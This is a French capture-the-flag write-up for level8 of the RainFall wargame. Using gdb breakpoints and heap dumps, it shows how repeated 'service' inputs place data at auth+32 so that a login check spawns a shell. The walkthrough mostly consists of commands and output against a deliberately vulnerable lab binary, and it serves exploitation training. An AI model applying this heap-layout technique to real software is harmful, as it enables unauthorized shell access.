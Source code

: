# level8

On a un main de 450 instructions, on va devoir disas et simplifier en C pour y comprendre quelque chose (cf. source.c)

Donc on a un printf qui affiche deux adresses : auth, service
On a un `fgets(buf, 128, stdin)`

Ensuite il y a des `strncmp(buf, "auth"/"reset"/"service"/"login")`
Qui effectuent des operations differentes
Si on test d'envoyer auth a gets via stdin on remarque qu'il nous alloue un espace de 4 bytes 
```
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0000000a      0x00000000      0x00000000      0x00000011
```
Nos deux blocs finissent par \xa(10 en d) qui correspond a '\n' en ascii
La suite correspond a des métadonnées de gestion (header) et a un padding pour l'alignement mémoire

Ensuite on a "service" qui strdup a buf+7 (donc ce qui suit service)
Donc on peut en profiter pour ecrire des donnees en memoire en envoyant par exemple : `serviceAAAA`

Le strncmp avec login verifie si auth[32] != 0
Il va donc falloir ecrire en memoire a `*(auth + 32)` pour que le `system("/bin/sh")` soit execute

Avec service nous pouvons le faire.

Essayons avec gdb :

Mettons un break avant l'appel a fgets
`b *main+74`

Nous pouvons, a l'aide de `commands` executer des commandes a chaque break point, donc a chaque tour de boucle avec le while(1)
```
commands
x/32wx 0x804a008
continue
end
```
Je cherche a print les adresses sur la heap pour voir les differentes allocations qui sont faites

En envoyant "auth " au premier tour de boucle puis "serviceAAAA"
On arrive a ce resulat :
```
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x41414141      0x0000000a      0x00000000      0x00020fe1
```
C'est un bon debut, il faut maintenant ecrire a `*(auth+32)`
On sait que chaque allocation decale la nouvelle adresse a +16
Donc on essaye d'envoyer deux fois serviceAAAA suivi de login 
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
serviceAAAA
0x804a008, 0x804a018 
serviceAAAA
0x804a008, 0x804a028 
login
```
auth+32 pointe bien vers notre bloc AAAA
la condition est true, system("/bin/sh") est execute